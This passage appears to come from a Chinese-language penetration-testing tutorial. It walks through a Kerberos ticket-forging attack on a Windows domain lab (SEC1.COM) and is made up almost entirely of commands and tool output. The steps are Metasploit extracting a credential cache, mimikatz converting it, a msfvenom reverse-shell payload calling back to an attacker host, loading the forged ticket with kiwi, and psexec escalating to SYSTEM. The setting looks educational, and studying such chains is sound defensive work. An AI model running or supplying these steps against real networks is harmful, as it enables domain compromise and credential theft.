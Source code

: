 ```bash
[*] Running module against 10.1.1.10

[*] Validating options...
[*] Using domain SEC1.COM...
[*] 10.1.1.10:88 - Sending AS-REQ...
[*] 10.1.1.10:88 - Parsing AS-REP...
[*] 10.1.1.10:88 - Sending TGS-REQ...
[+] 10.1.1.10:88 - Valid TGS-Response, extracting credentials...
[+] 10.1.1.10:88 - MIT Credential Cache saved on /root/.msf4/loot/20210225143002_default_10.1.1.10_windows.kerberos_407856.bin
[*] Auxiliary module execution completed
```



 接下来，进行格式转换。因为 MSF 不支持 bin 文件的导入，所以要先使用 mimikatz 对文件进行转换。在 mimikatz 输入命令，导出 kirbi 格式的文件。

```cmd
kerberos::clist "20210225143002_default_10.1.1.10_windows.kerberos_407856.bin" /export
```

msf 生成 shell

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.1.1.16 LPORT=4444 -f exe>msf.exe
```

msf 监听，拿到 win7  meterpreter 会话

```bash
meterpreter > getuid
Server username: SEC1\user01
```

输入 `load kiwi` ,

然后输入 

```bash
kerberos_ticket_use /root/.msf4/loot/0-00000000-user01@krbtgt-SEC1.COM.kirbi
```

之后使用高票据进行测试

```bash
msf exploit(handler) > use exploit/windows/local/current_user_psexec
    设置相关选项
    exploit
    .....
    .....
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
```



